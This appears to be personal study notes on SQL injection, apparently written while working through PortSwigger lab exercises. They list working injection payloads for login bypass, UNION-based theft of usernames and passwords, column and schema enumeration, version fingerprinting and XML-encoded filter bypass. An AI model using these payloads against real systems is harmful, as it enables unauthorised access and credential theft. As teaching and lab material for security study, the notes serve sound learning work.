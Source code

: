 # SQL Injections
## Detection
```
'
'OR 1=1+--+
'OR 1=2+--+
time-delay payloads
triggering out-of-band network interaction
```

## Examples
### Retrievieng hidden data
`https://insecure-website.com/products?category=Gifts`
When user clicks on the *Gifts* category, browser requests URL from above  
SQL query:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Here *released* means that product is released and could be viewed by users. If we change released value to 0, we will be able to see all the products  
URL:
`https://insecure-website.com/products?category=Gifts'--`
Query:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
Or we can use next query:
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
And the query will be:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
1=1 returns True, so query will return all product from category *Gifts*

### Subverting application logic
If user sends login wiener and pass bluecheese, app will let him in  
Query:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
If we enter `administrator'--` we will get in as administrator without checking password, because query will be next:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

### Retrieving data from other database tables
```
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
```

### Blind SQL injections
* Triggered by changing logic of query (boolean results, divide-by-zero etc)
* Time delay of processing query
* Out-of-band network ineraction

### Second-order SQLi
SQLi which is stored inside server/database and executed later with another HTTP request. Also called stored SQLi  

## Examining database
### Versions:
* Oracle DB version: `SELECT * FROM v$version`
* MySQL: `SELECT @@version`
* PostgreSQL: `SELECT version()`

DO AGAIN:
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

### Contents of DB:
* Obtaining database tables (on most of DBs except Oracle): `SELECT * FROM information_schema.tables`
* Obtaining columns: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle: `SELECT * FROM all_tables`, `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

NOTE: It's good idea to query Oracle table 'dual'  

*Example of workflow*
```
' UNION SELECT NULL -- 
' UNION SELECT NULL, NULL -- 
' UNION SELECT @@version, NULL --
' UNION SELECT table_name,NULL FROM information_schema.tables -- 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table='<table_name>' -- 
' UNION SELECT username, password FROM '<table_name>' -- 
```
## SQLi in different contexts
SQLi could be placed in JSON/XML and also could be obfuscated:
```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
We obfuscate symbols like binary or unicode  
Also we can use Hackvertor plugin for Burp (for encoding in xml use hex entities)  
If wee see that SQLi returns only one column, we can concatenate like this:
```
1 UNION SELECT username || '~' || password FROM users
```

REPEAT THIS [LAB](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## UNION SQLi
### Determining the number of columns
order by method:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
null method:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

In Oracle we always need to specify FROM. For this purposes we have 'dual' table.  

NOTE: COMMENT COULD BE -- OR #  
To detect certain data type (e.g. string), we can place it inside of series of NULL queries:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Retrieving multiple values within a single column
`' UNION SELECT username || '~' || password FROM users--` (Oracle)
Other DBs:
* Microsoft: `'foo'+'bar'`
* Postgres: `'foo'||'bar'`
* MySQL: `'foo' 'bar'` (note the space) or `CONCAT('foo','bar')`


